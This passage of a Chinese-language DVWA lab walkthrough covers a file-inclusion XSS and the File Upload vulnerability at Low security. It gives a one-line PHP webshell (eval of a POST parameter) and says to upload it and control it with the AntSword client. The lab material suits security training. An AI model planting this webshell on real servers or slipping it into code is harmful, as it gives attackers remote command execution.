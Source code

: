 这里测试的include.php中包含的file3.php存在xss漏洞
http://192.168.20.48/DVWA/vulnerabilities/fi/?page=file3.php
![在这里插入图片描述](/docs/images/content/security/burp_suite/action_01_web.md.images/76a0028c28408ff27aef1ff2477ac632.png)

### File Upload（文件上传）
File Upload，即文件上传漏洞，指用户上传了一个可执行的脚本文件，并通过此脚本文件获得了执行服务器端命令的能力。通常是由于对上传文件的类型、内容没有进行严格的过滤、检查，使得攻击者可以通过上传木马获取服务器的webshell权限。
#### Low
查看代码
![在这里插入图片描述](/docs/images/content/security/burp_suite/action_01_web.md.images/c63243afd5c9aa48fa1f124b6565abb0.png)
直接将文件传输上传到hackable/upload/目录，未做任何限制
安装中国蚁剑（参考：https://www.yuque.com/antswordproject/antsword/srruro）
>出现代码解压出错：[object Object]，可以再次管理员身份运行即可安装好，安装后再次打开即可用。
添加一个shell文件(https://www.yuque.com/antswordproject/antsword/qg3g73)
ant.php 内容：（注意ant参数蚁键里是密码）
```
<?php eval($_POST['ant']); ?>
```
通过功能上传